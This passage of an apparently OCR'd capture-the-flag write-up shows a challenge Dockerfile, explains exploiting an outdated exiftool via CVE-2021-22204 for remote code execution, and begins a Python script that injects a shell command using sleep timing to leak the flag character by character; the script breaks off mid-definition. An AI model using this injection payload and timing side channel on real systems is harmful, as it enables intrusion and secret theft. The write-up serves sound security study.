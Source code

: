 ```dockerfile
    find /src -type f -exec chmod 644 {} + && \
    find /src -type f -exec chattr +i {} \; && \
    find /src/tmp -type d -exec chmod 777 {} + && \
    find /src/*.sh -exec chmod +x {} \;

RUN apt-get install -y tzdata && \
    cp /usr/share/zoneinfo/Asia/Tokyo /etc/localtime && \
    echo "Asia/Tokyo" > /etc/timezone

RUN python3.11 -m pip install -r requirements.txt
RUN python3.11 -m pip install uwsgi
RUN apt-get purge -y curl wget

RUN ln -sf /bin/bash /bin/sh

CMD ["uwsgi", "uwsgi.ini"]

RUN chmod o-x /usr/local/bin/python3.11 && \
    rm /usr/lib/x86_64-linux-gnu/perl-base/socket.pm
```

The Dockerfile downloads a slightly outdated version of `exiftool`. From other CTFs, we knew that `exiftool` had some problems in the past, so we looked around for CVEs related to this version. With little surprise, we found that this version is vulnerable to [CVE-2021-22204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22204), allowing a quite simple RCE. After quickly getting an PoC exploit from [this repo](https://github.com/UNICORDev/exploit-CVE-2021-22204), we got the flag... or so we thought.

There is a catch: the backend container is completely isolated from external networks, so no reverse shell, curl, or even DNS exfiltration here! We decided to use a side-channel: time (e.g. `sleep`). Fairly enough, we can find a utility script already on the backend that allows to convert a character to its ASCII (decimal) representation. We also knew that flag letters only included hexadecimal digits, making it easier to optimize the side-channel.
The following is the script used to extract the flag with success. Notice that we could not use some characters (e.g. parenthesis), making the scripting part a little more frustrating. The final script is fairly fast and reliable:

```py
#!/usr/bin/env python

import os
import requests
import time

flag = "LINECTF{"
#       LINECTF{2a38211e3b4da95326f5ab593d0af0e9}
i = len(flag)
while True:
    print(flag)

    # This command will:
    #  - save into X the ascii value of the i-th character of the flag
    #  - sleep for $X - 87 seconds, which may mean not sleeping (if character is in 0-9),
    #    where 87 is ord('a') - 10, so that characters in a-f will cause a sleep from 10 to 16 seconds
    #  - if previous sleep failed, sleep for $X - 48 seconds, where 48 is ord('0'), meaning that
    #    we will sleep from 0 to 9 seconds for characters in 0-9
    #
    # TL;DR;
    #  - 0 <= sleep < 10 -> 0-9
    #  - 10 <= sleep <= 15 -> a-f
    cmd = (
        "X=`/src/ascii.sh ${FLAG:%d:1}`; sleep `expr $X - 87` || sleep `expr $X - 48`"
        % i
```